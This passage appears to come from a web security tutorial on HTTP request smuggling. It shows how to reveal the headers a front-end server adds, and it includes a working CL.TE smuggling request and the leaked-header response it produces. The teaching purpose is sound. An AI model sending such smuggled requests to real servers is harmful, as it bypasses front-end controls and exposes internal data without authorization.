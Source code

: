 For example, the front-end server might:
- terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
- add an `X-Forwarded-For` header containing the user's IP address;
- determine the user's ID based on their session token and add a header identifying the user; or
- add some sensitive information that is of interest for other attacks.

In some situations, if your smuggled requests are missing some headers that are normally added by the front-end server, then the back-end server might not process the requests in the normal way, resulting in smuggled requests failing to have the intended effects.

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:
- Find a POST request that reflects the value of a request parameter into the application's response.
- Shuffle the parameters so that the reflected parameter appears last in the message body.
- Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

Suppose an application has a login function that reflects the value of the `email` parameter:
```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the `email` parameter. It will then reflect this value back in the response to the second request:
```http
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
